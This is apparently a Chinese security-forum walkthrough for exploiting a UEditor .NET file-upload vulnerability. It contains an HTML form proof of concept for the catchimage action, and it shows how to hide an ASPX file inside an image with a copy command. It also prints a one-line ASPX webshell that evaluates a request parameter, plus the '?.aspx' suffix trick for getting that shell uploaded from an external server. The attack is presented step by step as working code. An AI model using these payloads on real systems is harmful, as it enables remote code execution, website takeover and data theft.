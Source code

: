[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-b4e33d69778942a6e6c7765a1d88286032485c15.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-b4e33d69778942a6e6c7765a1d88286032485c15.png)

非常完美

漏洞利用

1、我们可以利用post方法直接上传文件到目标网站

**Poc：**

```html
<form action="http://www.xxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">

 <p>shell addr: <input type="text" name="source[]" /></p>

 <input type="submit" value="Submit" />

</form>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-3ebe9914f2a6b754fd871a5211c0b0767d74dd3a.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-3ebe9914f2a6b754fd871a5211c0b0767d74dd3a.png)

在利用这个POC的时候，需要一个外网服务器，上传脚本文件，其中【shell addr】后填写的就是服务器上脚本的地址加上后缀（?.aspx）。

制作一个图片马放到外网服务器上面

`copy 1.jpg/b +2.aspx 3.jpg`

一句话脚本

`<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>`

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-03590046a356105c1fd2f442cb4c69a5d94c8c94.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-03590046a356105c1fd2f442cb4c69a5d94c8c94.png)

把脚本文件放到服务器上面

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9e7b70f44d2ac20862dd9745ea6b645be61a0fca.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9e7b70f44d2ac20862dd9745ea6b645be61a0fca.png)

脚本地址：[http://服务器地址/3.jpg](http://xn--zfru1gfr6bz63i/3.jpg)

poc里面shell addr填http://服务器地址/3.jpg?.aspx

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-026de2b2dfd0569d9db468894bb88ac6171c870c.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-026de2b2dfd0569d9db468894bb88ac6171c870c.png)

然后点击submit上传

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-b963c58184b57586ec62e59ee094c15c28154955.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-b963c58184b57586ec62e59ee094c15c28154955.png)
